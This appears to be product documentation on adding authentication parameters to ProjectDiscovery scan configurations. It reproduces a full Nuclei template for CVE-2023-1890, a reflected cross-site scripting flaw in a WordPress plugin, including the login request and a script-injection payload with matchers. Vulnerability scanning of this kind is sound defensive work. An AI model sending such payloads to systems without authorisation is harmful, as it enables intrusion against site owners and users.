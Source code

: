 ```yaml
---
title: "Adding Parameters"
description: "A walkthrough of adding additional parameters to ProjectDiscovery scan configuration"
sidebarTitle: "Adding Parameters"
---
```


## Summary
Some Nuclei templates, to adapt to running in ProjectDiscovery Cloud Platform, may require additional parameters. 
A common example is Nuclei templates that need parameters like username and password to authenticate.

This page provides a common example to show you the steps required to set up scan parameters.
Using the scan configuration you can take advantage of these types of Nuclei templates within ProjectDiscovery. 

## Authentication Example 

In this example we’re going to look at a Nuclei template that requires WordPress authentication. 

WordPress authentication is required for over 150 different Nuclei templates, and in each of these the templates can't be executed without configuring additional parameters. 

For example:

```yaml

id: CVE-2023-1890

info:
  name: Tablesome < 1.0.9 - Cross-Site Scripting
  author: r3Y3r53
  severity: medium
  description: |
    Tablesome before 1.0.9 is susceptible to cross-site scripting via the tab parameter due to insufficient input sanitization and output escaping. An attacker can inject arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
  impact: |
    Successful exploitation of this vulnerability could lead to the execution of arbitrary JavaScript code in the context of the victim's browser, potentially leading to session hijacking, defacement, or theft of sensitive information.
  remediation: Fixed in version 1.0.9.
  reference:
    - https://wpscan.com/vulnerability/8ef64490-30cd-4e07-9b7c-64f551944f3d
    - https://wordpress.org/plugins/tablesome/
    - https://nvd.nist.gov/vuln/detail/CVE-2023-1890
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
    cvss-score: 6.1
    cve-id: CVE-2023-1890
    cwe-id: CWE-79
    epss-score: 0.00203
    epss-percentile: 0.57653
    cpe: cpe:2.3:a:pauple:tablesome:*:*:*:*:*:wordpress:*:*
  metadata:
    verified: true
    max-request: 2
    vendor: pauple
    product: tablesome
    framework: wordpress
  tags: cve2023,cve,wpscan,wp,wp-plugin,wordpress,authenticated,xss,tablesome,pauple

http:
  - raw:
      - |
        POST /wp-login.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        log={{username}}&pwd={{password}}&wp-submit=Log+In
      - |
        GET /wp-admin/edit.php?post_type=tablesome_cpt&a%22%3e%3cscript%3ealert`document.domain`%3c%2fscript%3e HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - 'status_code_2 == 200'
          - 'contains(content_type_2, "text/html")'
          - 'contains(body_2, "<script>alert`document_domain`</script>")'
          - 'contains(body_2, "tablesome")'
        condition: and

```

In the first request there are two variables that are not defined in the template. 
Users are expected to pass the values of these variables `{{username}}` and `{{password}}`. 

```
   POST /wp-login.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        log={{username}}&pwd={{password}}&wp-submit=Log+In
```

In Nuclei from the CLI you would simply run the following command:

`nuclei -id CVE-2023-1890 -var username=admin -var password=password123 -target https://example.com`

However, ProjectDiscovery requires some additional configuration to include these parameters in a scan. 

## Variable Configuration in ProjectDiscovery

To configure these required scan parameters in ProjectDiscovery you can create a Scan Configuration to pass these variables along in any scans you create. 
You can choose to enable this configuration for all scans by default, or apply the configuration manually when you set up a new scan. 

Complete these steps to set up an username and password parameters for a scan that includes WordPress authentication within the Nuclei templates. 

<Steps>
  <Step title="Navigate to Scans">
    Select Configurations. Next select **Scans** and **New Config**.
  </Step>
  <Step title="Complete Scan configuration">
    - Enter WP Login as the configuration name
    - Under Template variables enter **key** with the desired username and **value** with the corresponding password
    - Update Enable for all scans based on your preferences. _Keeping it selected (default) will pass the new variables for any templates that has these variables defined._ 
  <img height="200" src="/images/platform/parameterconfig.png" />
  </Step>
  <Step title="Complete your config">
    Select **Create** to create the new scan configuration. 
  </Step>
</Steps>

## What's Next? 
Now that you have created a new scan configuration if set to _“Enable for all scans”_ will appear as a configuration for any new scans you create. 
 - If this is not enabled you will be able to choose the configuration for any scan you create.

Create a new scan and select any WordPress templates you want to include. You can also create a custom template profile to define a specific group of WP templates.


